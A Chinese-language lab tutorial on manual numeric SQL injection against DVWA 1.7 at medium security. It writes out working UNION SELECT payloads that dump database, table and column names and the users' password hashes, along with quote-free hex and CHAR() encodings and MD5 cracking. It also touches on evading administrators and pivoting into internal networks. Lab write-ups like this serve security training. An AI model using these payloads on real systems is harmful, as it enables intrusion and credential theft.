

环境：dvwa 1.7数据库:mysql

dvwa的安全等级:medium

## 一、分析和查找注入点

（1）知识点回顾

如果上一篇有好好读过的同学应该知道，我们上一篇遇到的字符型注入。也即是通过Get或者Post方式传进去的数据被单引号或者双引号包裹住。如果我们想要注入自己的payload(有效载荷)的话，则我们必须先闭合前面的单引号或者双引号，否则我们的数据始终会被当做成字符串来处理。

这种类型的注入点成为字符型注入点。

（2）这次我们的把防御等级提升了一个层次，来逐步加强我们手工注入的能力以及开更多关于sql注入的脑洞！这次我们依旧先分析web应用的功能，然后测试我们输入的参数是否被正确的处理。

1、还是来到我们SQL injection这里，可以看到这里还是和上次一样，给出一个输入框，让我们输入ID的数值，然后返回对应ID的firstname，surname这两个信息。

[1]当我们输入正常的数字1的时候，可以看到返回对应数据

[2]当我们输入“1’”的时候，可以看到有报错信息。也就是说用户的输入没有被正当的处理，从而引起数据库的语法错误，看起来有戏！


同时我们仔细观察一下，我们输入的“’”被“\”转义了，变成了这样子“\’”。也就说这里，应用程序进行的过滤应该是利用php里面addslashes类似的函数，这个函数会处理四个数据。分别是单引号【’】、双引号【”】、反斜杠【\】、空字符【null】。

[3]这里我们继续测试，看一看是不是用了类似的函数

测试数据：

(1) “1””



(2)“1\”


(3)“%00”注意因为我们没办法用键盘输入空字符，但是可以在url上使用%00来表示，所以才会有地址栏上的%00


(4)测试一下其他的字符，“-”、“&”。可以发现虽然也是报错了，可是并没有出现转义字符


2、这个时候我们思考一下，要是字符型的注入点，我们的输入单引号已经被转义，按道理来说不应该出现报错的信息。

首先还是选择数据库为dvwa

```
use dvwa;
```

这里我们在本地数据库测试一下。

```
select * from users where user_id = '1\'';
```

可以看到当我们的输入语句带上转义的单引号时，不但没有报错还能查询成功。

(1)不报错的原因是，这里的单引号已经被转义，从而整个字符串的值为 1\’

(2)那为什么会查询成功呢？

这里涉及的知识是强制类型转换，我们先来看一下表的定义

```
describe users;
```

可以看到user_id这个类型是int整型，当我们的查询像上面的一样的时候，mysql会将字符串强制类型转换成int类型，但是这种转换是有缺陷的！

下面给出三个例子，大家感受一下！

```
select * from users where user_id = '1abdc';
select * from users where user_id = 'abdc';
select * from users where user_id = '2abdc';
```

上面的例子中，第二个因为一开始没有数字，所以在转换类型的时候，会转换成0。

具体可以看一下这个例子。

3、根据上面两部分的分析，我们可以知道这次我们传进去的数据并不是被包裹在单引号或者双引号里面的，这时候我们得介绍第二种类型的注入点了，数字型注入。

（1）测试，说明是数字型，那我们来进行简单的加减运算就可以知道它是否存在注入点了。

测试：在输入框里面

[1]输入2的时候，反馈的是ID为2的用户信息

[2]输入1+1的时候，反馈和2的结果一样。也就是说明这里存在注入点。类似的也可以使用减号“-”、“*”、“/”这些运算符号。


PS：但是这里需要注意的是，在URL中“+”是有特别含义，它表示的是空格。所以在URL中我们需要使用“%2B”来代替“+”。

## 二、构造payload

简单说明：其实数字型注入就是我们的数据不需要再闭合单引号可以直接注入到查询中。所以之后构造payload部分很大程度和字符型一样。

1、猜测字段数

这里使用order by 来猜测

Payload:

```
1 order by 1
1 order by 2
1 order by 3
```

可以发现在3的时候，出现错误。因而可以得出字段数为2

2、之后的过程和字符型注入一样，只不过是去掉了Payload前面的单引号以及最后面的注释符号。要是有疑惑的可以看上一篇文章。不过这里要重点的提一下，要是我们想要使用字符串的话，可以有两种方法。

[1]使用字符串的十六进制来表示，例如admin转化为十六进制，为“61646D696E”

然后我们之后在十六进制前加上0x61646D696E

我们构造的payload像这样即可

```
select * from users where user = 0x61646D696E;
```

[2]使用char函数，但这里char函数使用的参数是十进制的ascii数值。比如admin

```
CHAR(97, 100, 109, 105, 110)
```

构造的payload像这样即可

```
select * from users where user = CHAR(97, 100, 109, 105, 110);
```

3、这里构造最终的payload

获取数据库名：

```
-1 union select 1,database()
```

获取表名：

```
-1 union select table_name,2 from information_schema.tables where table_schema = database()
```


获取users表的列名

```
-1 union select column_name,2 from information_schema.columns where table_schema = database() and table_name = 0x7573657273
```

获取数据表内容

```
-1 union select user,password from users;
```

4、好了又到去MD5网站破解密码的时候，小伙伴兴奋否，又是一次验证自己成果的时候。

这里我们选择用户名为1337的用户，好！


Duang ,密码出来了！开心死了

## 三、好了，到开脑洞时刻

这个时候我们来了解一下什么是黑盒测试以及白盒测试？

1、黑盒测试

黑盒：言下之意就是我们对web应用所知甚少，就像我们对一个封闭的箱子的了解一样，我们能够获取的信息很少。我们所拥有的是数据的输入口，以及数据的输出口！

(1)通过构造特定的输入来观察输出，从而去分析web应用是如何去处理我们的数据。比如上面，我们输入的id值被转义了，但是我们不清楚是不是只对某一部分的内容就行转义，于是我们利用”&”、”-“、”+”这些特殊字符去测试。

(2)一般来说，要是我们在前期测试获取了足够多的信息，可以搭建本地环境，然后对本地环境进行模糊测试（也就是输入大量无序特别的的数据，去观察应用程序的反应），同时也可以避免大量测试引起管理员的注意

(3)对于黑盒测试来说，更像我们正常的渗透。我们通过搜索引擎，各种信息泄露的查询方法来获取关于web应用方面的信息！

而我们这两次的学习都是黑盒测试，因为我们只拥有数据的输入以及可以获取数据的输出。

2、白盒测试

白盒：与黑盒测试相反，我们知道的信息很多。

（1）可以知道web应用的逻辑，它会怎样处理输入数据，比如我们被告知输入部分被”\”转义，这个时候，我们就会去思考，怎么构造payload吃掉”\”。

（2）可以知道web应用所具有的功能，比如被告知有文件上传功能，这个时候我们去思考是否存在文件上传漏洞，或者服务器的解析漏洞

（3）可以知道网络拓扑结构，我们则可以通过指定渗透流程，比如先拿下web服务器，然后利用web服务器来打开内网的大门。

（4）有时还可以知道源码，要是可以知道源码的话，可以通过分析应用程序如何过滤输入，然后找到其不严谨的地反，既可以绕过！